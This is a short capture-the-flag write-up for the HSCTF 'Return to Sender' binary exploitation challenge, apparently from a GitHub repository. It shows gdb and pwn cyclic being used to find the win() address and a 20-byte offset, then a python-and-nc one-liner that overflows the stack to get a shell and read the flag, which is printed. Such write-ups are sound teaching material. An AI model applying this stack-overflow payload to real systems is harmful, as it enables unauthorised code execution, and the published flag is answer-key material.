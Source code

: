 # Return to Sender
Binary Exploitation

## Challenge 

	Who knew the USPS could lose a letter so many times?

	nc pwn.hsctf.com 1234

	6/3/19 7:34 AM: Updated binary, SHA-1: 104fb76c3318fb44130c4a8ee50ac1a2f52d4082 return-to-sender

	This might come in handy: https://en.wikipedia.org/wiki/Stack_buffer_overflow

## Solution

Get address of win()

	$ gdb return-to-sender 
	(gdb) info add win
	Symbol "win" is at 0x80491b6 in a file compiled without debugging.

Fuzz for offset length

	# pwn cyclic 100 | strace ./return-to-sender
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x61616166} ---

	# pwn cyclic -l 0x61616166
	20

Craft payload

	# (python -c "import struct; print('A'*20 + struct.pack('<I', 0x80491b6))"; cat) | nc pwn.hsctf.com 1234

	ls
	cat flag
	hsctf{fedex_dont_fail_me_now}

## Flag

	hsctf{fedex_dont_fail_me_now}
